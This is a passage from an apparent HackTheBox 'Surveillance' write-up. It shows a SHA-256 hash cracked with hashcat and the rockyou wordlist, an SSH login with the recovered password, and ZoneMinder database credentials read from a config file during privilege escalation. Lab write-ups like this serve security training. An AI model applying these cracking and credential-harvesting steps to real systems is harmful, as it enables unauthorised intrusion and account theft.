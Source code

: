 Identify the hash value found using `hash-identifier` and crack it using `hashcat`.

```bash
$ hash-identifier 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec
...
Possible Hashs:
[+] SHA-256
[+] Haval-256

$ hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
...
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
...
```

`ssh` into the server with the credentials found.

```bash
$ ssh matthew@surveillance.htb
matthew@surveillance.htb's password: starcraft122490
matthew@surveillance:~$ 
```

# Privilege Escalation

Found a database credentials: `zmuser:ZoneMinderPassword2023`.

```bash
matthew@surveillance:/usr/share/zoneminder/www/api/app/Config$ cat database.php
...
class DATABASE_CONFIG {

	/*public $default = array(
		'datasource' => 'Database/Mysql',
		'persistent' => false,
		'login' => ZM_DB_USER,
		'password' => ZM_DB_PASS,
		'database' => ZM_DB_NAME,
		'ssl_ca' => ZM_DB_SSL_CA_CERT,
		'ssl_key' => ZM_DB_SSL_CLIENT_KEY,
		'ssl_cert' => ZM_DB_SSL_CLIENT_CERT,
		'prefix' => '',
		'encoding' => 'utf8',
	);*/

	public $test = array(
		'datasource' => 'Database/Mysql',
		'persistent' => false,
		'host' => 'localhost',
		'login' => 'zmuser',
		'password' => 'ZoneMinderPassword2023',
		'database' => 'zm',
		'prefix' => '',
		//'encoding' => 'utf8',
	);

	public function __construct() {
		if (strpos(ZM_DB_HOST, ':')):
			$array = explode(':', ZM_DB_HOST, 2);
                        if (ctype_digit($array[1])):
				$this->default['host'] = $array[0];
				$this->default['port'] = $array[1];
			else:
				$this->default['unix_socket'] = $array[1];
			endif;
		else:
```
